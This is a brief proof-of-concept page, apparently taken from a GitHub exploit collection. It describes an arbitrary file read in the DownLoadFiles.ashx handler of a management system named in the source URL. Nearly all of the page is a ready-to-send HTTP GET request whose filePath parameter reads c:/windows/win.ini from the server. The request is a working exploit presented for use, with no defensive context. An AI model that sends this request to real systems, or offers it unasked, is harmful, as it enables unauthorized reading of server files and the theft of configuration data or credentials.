 # sjxt_DownLoadFiles.ashx_fileread

from： https://github.com/wy876/POC/blob/83ffd34e35da0bb8b1f8325dd4810e31b0d8a01a/%E4%B8%96%E7%BA%AA%E4%BF%A1%E9%80%9A%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9FDownLoadFiles.ashx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96.md

2024.5.20 @2 

```
GET /WeChatConfig/ashx/DownLoadFiles.ashx?filePath=c:/windows/win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25X
Content-Length: 4
```
